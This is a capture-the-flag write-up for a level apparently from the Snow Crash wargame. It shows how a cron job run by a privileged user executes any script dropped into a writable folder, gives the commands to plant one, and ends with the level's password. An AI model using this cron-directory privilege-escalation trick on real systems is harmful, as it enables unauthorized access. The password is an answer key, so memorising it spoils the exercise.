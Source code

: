 # LEVEL 05

## 💡 Explanation

In this level we have to:
1. When we log in we receive a notification saying that we have a mail (see screenshot) => Check /var/mail/level05
2. Seems there's a cron executing `sh /usr/sbin/openarenaserver` every 2 mins by the user 'flag05' 
3. When checking the script `/usr/sbin/openarenaserver` we see that it will `for i in /opt/openarenaserver/* => bash -x "$i"`
4. We should create a script on the folder `/opt/openarenaserver` that saves the flag!!

## 👾 Commands

```
cat /var/mail/level05
cat /usr/sbin/openarenaserver
echo 'getflag > /tmp/flag' > /opt/openarenaserver/lol
cat /tmp/flag
```

## 🔍 Resources

- [Where to find the mail!](https://devanswers.co/you-have-mail-how-to-read-mail-in-ubuntu/)
- [Crontab command](https://www.linuxtricks.fr/wiki/cron-et-crontab-le-planificateur-de-taches)
- [Bash command => parameter -x](http://manpagesfr.free.fr/man/man1/bash.1.html)
- [Unlit command (a bit useless)](https://www.ibm.com/docs/fr/sdk-java-technology/7?topic=rja-system-resource-limits-ulimit-command)

## 🔥 Password
`viuaaale9huek52boumoomioc`
